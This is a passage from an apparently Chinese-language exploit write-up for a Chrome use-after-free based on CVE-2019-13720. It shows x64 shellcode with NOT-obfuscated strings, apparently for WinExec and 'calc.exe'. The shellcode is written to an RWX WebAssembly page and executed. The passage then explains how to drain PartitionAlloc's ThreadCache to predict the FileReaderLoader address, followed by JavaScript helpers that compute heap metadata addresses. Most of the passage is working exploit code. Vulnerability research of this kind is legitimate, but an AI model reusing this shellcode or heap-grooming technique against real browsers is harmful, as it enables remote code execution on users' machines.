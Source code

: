 ```javascript
	0x01, 0xC3, 0x48, 0x31, 0xC9, 0x66, 0x81, 0xC1, 0xFF, 0x88, 0x48, 0xC1,
	0xE9, 0x08, 0x8B, 0x14, 0x0B, 0x4C, 0x01, 0xC2, 0x4D, 0x31, 0xD2, 0x44,
	0x8B, 0x52, 0x1C, 0x4D, 0x01, 0xC2, 0x4D, 0x31, 0xDB, 0x44, 0x8B, 0x5A,
	0x20, 0x4D, 0x01, 0xC3, 0x4D, 0x31, 0xE4, 0x44, 0x8B, 0x62, 0x24, 0x4D,
	0x01, 0xC4, 0xEB, 0x32, 0x5B, 0x59, 0x48, 0x31, 0xC0, 0x48, 0x89, 0xE2,
	0x51, 0x48, 0x8B, 0x0C, 0x24, 0x48, 0x31, 0xFF, 0x41, 0x8B, 0x3C, 0x83,
	0x4C, 0x01, 0xC7, 0x48, 0x89, 0xD6, 0xF3, 0xA6, 0x74, 0x05, 0x48, 0xFF,
	0xC0, 0xEB, 0xE6, 0x59, 0x66, 0x41, 0x8B, 0x04, 0x44, 0x41, 0x8B, 0x04,
	0x82, 0x4C, 0x01, 0xC0, 0x53, 0xC3, 0x48, 0x31, 0xC9, 0x80, 0xC1, 0x07,
	0x48, 0xB8, 0x0F, 0xA8, 0x96, 0x91, 0xBA, 0x87, 0x9A, 0x9C, 0x48, 0xF7,
	0xD0, 0x48, 0xC1, 0xE8, 0x08, 0x50, 0x51, 0xE8, 0xB0, 0xFF, 0xFF, 0xFF,
	0x49, 0x89, 0xC6, 0x48, 0x31, 0xC9, 0x48, 0xF7, 0xE1, 0x50, 0x48, 0xB8,
	0x9C, 0x9E, 0x93, 0x9C, 0xD1, 0x9A, 0x87, 0x9A, 0x48, 0xF7, 0xD0, 0x50,
	0x48, 0x89, 0xE1, 0x48, 0xFF, 0xC2, 0x48, 0x83, 0xEC, 0x30, 0x66, 0x81,
	0xE4, 0xF0, 0xFF, 0x41, 0xFF, 0xD6
	]);
	
	writeN(rwx_addr, shellcode);
	
	try {
		wasmFuncA();
	} catch (e) {
	}
}
```

利用代码基本和 CVE-2019-13720 的相同，除了一些偏移量，主要的修改位于读取 FileReaderLoader 地址的部分，由于 PartitionAlloc 多了一个 ThreadCache 缓存，读取 FileReaderLoader 地址的方法发生了一些变化：
- 每个线程都有一个独享的 ThreadCache 缓存，内存申请先从 ThreadCache 中查找大小合适的内存块。
- 当 ThreadCache 中对应大小的内存块用完时，再去全局的 FastMallocPartitionRoot 申请多个内存块补充到 ThreadCache 中。

我只能读到 FastMallocPartitionRoot 的内容，不能确定 ThreadCache 的状态，所以是不能直接得出下一次申请的结果的。但这个问题解决起来也很简单，我多申请几次把当前的 ThreadCache 消耗光就可以了，ThreadCache 消耗光以后，当前 FastMallocPartitionRoot 中记录的下一块内存地址，就会被申请出来插入 ThreadCache 缓存链表的尾部。再次申请多个对象，把 ThreadCache 消耗光，就可以确保这个位于尾部的内存块已经被分配做 FileReaderLoader 了。

```javascript
// partition allocator meta data

const superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
const superPageBaseMask = ~superPageOffsetMask;

function getPartitionPageMetadataArea(addr) {
  let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
  let pageMetadataSize = BigInt(0x20);
  let partitionPageMetadataPtr =
      getMetadataAreaBaseFromPartitionSuperPage(addr) +
      partitionPageIndex * pageMetadataSize;
  return partitionPageMetadataPtr;
}


function getMetadataAreaBaseFromPartitionSuperPage(addr) {
  let superPageBase = getSuperPageBase(addr);
  let systemPageSize = BigInt(0x1000);
  return superPageBase + systemPageSize;
}
function getSuperPageBase(addr) { return addr & superPageBaseMask; }

```
